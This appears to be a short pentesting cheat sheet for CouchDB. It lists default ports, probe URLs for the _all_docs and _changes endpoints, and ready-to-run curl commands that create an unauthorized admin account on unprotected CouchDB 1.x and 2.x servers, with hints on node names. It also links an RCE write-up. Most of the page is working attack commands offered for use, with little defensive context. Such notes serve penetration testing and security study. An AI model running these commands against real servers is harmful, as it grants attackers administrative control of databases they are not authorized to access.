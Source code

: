 ## Fundamentals

https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

### Default Open Ports
```
5984
6984
## Can you use 80 or 443
```

## Testing for couchDB
```bash
http://test.site/search.php?submit=Submit&search=_all_docs
or 
http://test.site/search.php?submit=Submit&search=_changes
```

### Adding new admin through unprotected CouchDB 1.x
```url
curl -s -X PUT http://test.site:5984/_config/admins/rob -d '"123456"'
```

### Adding new admin through unprotected CouchDB 2.x
```url
curl -s -X PUT http://test.site:5984/_node/<NODENAME/_config/admins/root -d '"123456"'
# The defailt node is "nonode@nohost", try "couchdb@localhost" as a node as well.
# All available nodes can be found through curl -X GET http://test.site:5984/_membership
```
